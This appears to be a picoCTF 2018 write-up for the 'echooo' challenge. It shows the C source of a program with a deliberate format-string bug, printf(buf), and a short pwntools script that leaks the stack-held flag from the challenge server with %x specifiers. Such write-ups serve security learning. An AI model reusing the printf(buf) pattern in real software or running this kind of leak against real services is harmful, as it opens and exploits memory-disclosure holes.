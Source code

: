 echooo - Points: 300
===========

## Description

>This program prints any input you give it. Can you leak the flag? Connect with nc 2018shell1.picoctf.com 34802

## Hint:

> * If only the program used puts...

## Vulnerable Code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[64];
  char flag[64];
  char *flag_ptr = flag;
  
  // Set the gid to the effective gid
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  memset(buf, 0, sizeof(flag));
  memset(buf, 0, sizeof(buf));

  puts("Time to learn about Format Strings!");
  puts("We will evaluate any format string you give us with printf().");
  puts("See if you can get the flag!");
  
  FILE *file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  
  fgets(flag, sizeof(flag), file);
  
  while(1) {
    printf("> ");
    fgets(buf, sizeof(buf), stdin);
    printf(buf);
  }  
  return 0;
}
```

## Useful Information

Format String Bug :
> * printf(buf);

## Exploit

**REQUIRE** :[Pwntools Python](https://github.com/Gallopsled/pwntools)

```python
#!/usr/bin/python2.7
from pwn import *

rem = remote("2018shell3.picoctf.com",34802)
rem.recv(4096)

for x in range(27,42):
    rem.sendline("%%%04d$x" % x)
    sys.stdout.write(rem.recv().split("\n")[0].zfill(8).decode("hex")[::-1])

```

